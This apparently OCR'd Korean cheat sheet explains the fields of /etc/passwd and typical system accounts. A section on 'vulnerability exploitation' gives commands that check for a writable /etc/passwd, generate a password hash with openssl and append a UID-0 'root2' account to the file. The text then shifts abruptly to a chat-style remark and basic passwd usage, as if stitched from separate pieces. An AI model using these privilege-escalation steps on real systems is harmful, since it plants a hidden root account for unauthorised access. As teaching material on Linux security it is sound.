 # /etc/passwd 분석

## 구조

```
username:password:UID:GID:GECOS:home_dir:shell
```

- `username`: 로그인 계정명
- `password`: 'x' 표시는 /etc/shadow에 암호 저장됨
- `UID`: 사용자 ID (0=root, <1000=시스템 계정, ≥1000=일반 사용자)
- `GID`: 기본 그룹 ID
- `GECOS`: 사용자 정보 필드(이름, 연락처 등)
- `home_dir`: 홈 디렉토리 경로
- `shell`: 로그인 시 실행되는 기본 쉘

## 주요 계정 식별

```
root:x:0:0:root:/root:/bin/bash    # 관리자 계정
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin    # 최소 권한 계정
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin    # 웹 서버 계정
```

## 취약점 활용

- 쓰기 가능한 /etc/passwd 확인: `ls -la /etc/passwd`
- 해시 없는 계정 검색: `grep -v ':x:' /etc/passwd`
- OpenSSL로 암호 생성: `openssl passwd -1 -salt xyz password`
- 루트 계정 추가: `echo 'root2:$1$xyz$kL.GVc1d6R.Fw5SYW1tD//:0:0:root:/root:/bin/bash' >> /etc/passwd`

오케이, 깔끔하게 요약해줄게. 핵심만 뽑자.

---

```bash
# 내 비밀번호 변경 -> 현재 비밀번호를 알고 있는 경우
passwd
```

```bash
# 루트가 다른 유저 비번 바꾸고 싶을 때:
sudo passwd [사용자이름]
```
